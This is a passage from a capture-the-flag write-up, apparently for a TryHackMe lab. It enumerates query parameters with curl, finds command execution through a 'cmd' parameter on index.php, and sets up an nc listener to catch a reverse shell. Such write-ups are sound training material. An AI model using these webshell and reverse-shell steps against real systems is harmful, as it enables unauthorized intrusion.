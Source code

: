 I decided to try a few possible payloads to enumerate any query parameters until something worked :

```shell
$ curl -v http://10.10.240.45/assets/index.php?test=1 #Nothing
$ curl -v http://10.10.240.45/assets/index.php?id=1 #Nothing
$ curl -v http://10.10.240.45/assets/index.php?page=about #Nothing
$ curl -v http://10.10.240.45/assets/index.php?file=flag.txt #Nothing

# But when I checked for the possibility of Remote Code Execution...
$ curl -v http://10.10.240.45/assets/index.php?cmd=ls
GET /assets/index.php?cmd=ls HTTP/1.1
> Host: 10.10.240.45
> User-Agent: curl/7.88.1
> Accept: */*
>
< HTTP/1.1 200 OK
< Date: Mon, 30 Dec 2024 22:12:02 GMT
< Server: Apache/2.4.41 (Ubuntu)
< Set-Cookie: PHPSESSID=46tuvhlab0lh9rh6hoqm84ms1c; path=/
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
< Content-Length: 40
< Content-Type: text/html; charset=UTF-8
<
* Connection #0 to host 10.10.240.45 left intact
aW1hZ2VzCmluZGV4LnBocApzdHlsZXMuY3NzCg==#
```

While checking for **RCE** (with the `ls` command), I’m surprised to see that it actually works and returns an output encoded in base64. When decoded, it shows the actual output :

```shell
images
index.php
styles.css
```

Using this method, we know that we use this webshell under the `www-data` user and find the first flag in the `/home/deku` folder.

But first, we can try to get a reverse shell for better convenience ? 

This is what we directly do by using [revshells.com](https://www.revshells.com/), then [upgrading it](https://0xffsec.com/handbook/shells/full-tty/) and now we are ready to work :

```shell
$ rlwrap nc -lvnp 1337
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.10.240.45.
Ncat: Connection from 10.10.240.45:37146.
```

![4](/assets/img/tryhackme/ctf/uahighschool/4.png)
